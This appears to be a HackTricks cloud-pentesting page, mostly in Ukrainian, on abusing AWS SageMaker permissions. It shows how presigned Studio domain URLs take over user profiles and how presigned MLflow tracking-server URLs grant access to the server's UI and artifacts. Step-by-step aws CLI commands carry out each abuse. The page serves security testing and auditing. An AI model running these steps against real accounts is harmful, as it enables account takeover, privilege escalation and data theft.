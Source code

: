 # AWS - SageMaker Несанкціонований доступ

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Захоплення облікового запису через CreatePresignedDomainUrl (Impersonate Any UserProfile)

### Description
Ідентифікатор з дозволом викликати `sagemaker:CreatePresignedDomainUrl` на цільовому Studio `UserProfile` може створити URL для входу, який авторизується безпосередньо в SageMaker Studio під цим профілем. Це надає браузеру нападника сесію Studio, яка успадковує права `ExecutionRole` профілю та повний доступ до домашньої директорії профілю, що зберігається на EFS, та додатків. Не потрібні `iam:PassRole` або доступ до консолі.

### Requirements
- Наявність SageMaker Studio `Domain` та цільового `UserProfile` в ньому.
- Принципал нападника потребує `sagemaker:CreatePresignedDomainUrl` на цільовому `UserProfile` (рівень ресурсу) або `*`.

Minimal policy example (scoped to one UserProfile):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Кроки зловживання

1) Перелічте Studio Domain та UserProfiles, на які можна націлитися
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Згенеруйте presigned URL (дійсний приблизно 5 хвилин за замовчуванням)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Відкрийте повернений URL у браузері, щоб увійти в Studio як цільовий користувач. У Jupyter терміналі всередині Studio перевірте фактичну ідентичність:
```bash
aws sts get-caller-identity
```
Примітки:
- `--landing-uri` можна опустити. Деякі значення (наприклад, `app:JupyterLab:/lab`) можуть бути відхилені залежно від flavor/version Studio; за замовчуванням зазвичай відбувається перенаправлення на домашню сторінку Studio, а потім у Jupyter.
- Політики Org/обмеження VPC endpoint все ще можуть блокувати мережевий доступ; випуск токена не вимагає входу в консоль або `iam:PassRole`.

### Вплив
- Латеральний рух і ескалація привілеїв шляхом прийняття будь‑якого Studio `UserProfile`, ARN якого дозволено, із наслідуванням його `ExecutionRole` та файлової системи/додатків.

### Докази (з контрольного тесту)
- Маючи лише `sagemaker:CreatePresignedDomainUrl` на цільовому `UserProfile`, роль атакуючого успішно повернула `AuthorizedUrl`, схожий на:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Прямий HTTP-запит відповідає перенаправленням (HTTP 302) на Studio, підтверджуючи, що URL дійсний і активний до закінчення строку дії.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Опис
Ідентифікація з дозволом викликати `sagemaker:CreatePresignedMlflowTrackingServerUrl` для цільового SageMaker MLflow Tracking Server може згенерувати одноразовий presigned URL, який автентифікується безпосередньо в керованому MLflow UI цього сервера. Це надає той самий доступ, який мав би легітимний користувач до сервера (перегляд/створення experiments і runs, а також завантаження/вивантаження artifacts у S3 artifact store сервера) без доступу до консолі або `iam:PassRole`.

### Вимоги
- Наявність SageMaker MLflow Tracking Server в акаунті/регіоні та його назви.
- Принципал-атакувальник повинен мати `sagemaker:CreatePresignedMlflowTrackingServerUrl` на цільовому MLflow Tracking Server resource (або `*`).

Мінімальний приклад політики (обмежено до одного Tracking Server):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Кроки зловживання

1) Перелічіть MLflow Tracking Servers, які ви можете атакувати, і виберіть одну назву
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Згенерувати попередньо підписаний MLflow UI URL (дійсний протягом короткого часу)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Відкрийте повернутий URL у браузері, щоб отримати доступ до MLflow UI як авторизований користувач для цього Tracking Server.

Notes:
- Tracking Server має бути в готовому стані (наприклад, `Created/Active`). Якщо він все ще в стані `Creating`, виклик буде відхилено.
- The presigned URL is single‑use and short‑lived; generate a new one when needed.

### Вплив
- Прямий доступ до керованого MLflow UI для цільового Tracking Server, що дозволяє переглядати та змінювати експерименти/запуски і отримувати або завантажувати артефакти, збережені в налаштованому на сервері S3 artifact store, в межах дозволів, накладених конфігурацією сервера.

{{#include ../../../../banners/hacktricks-training.md}}
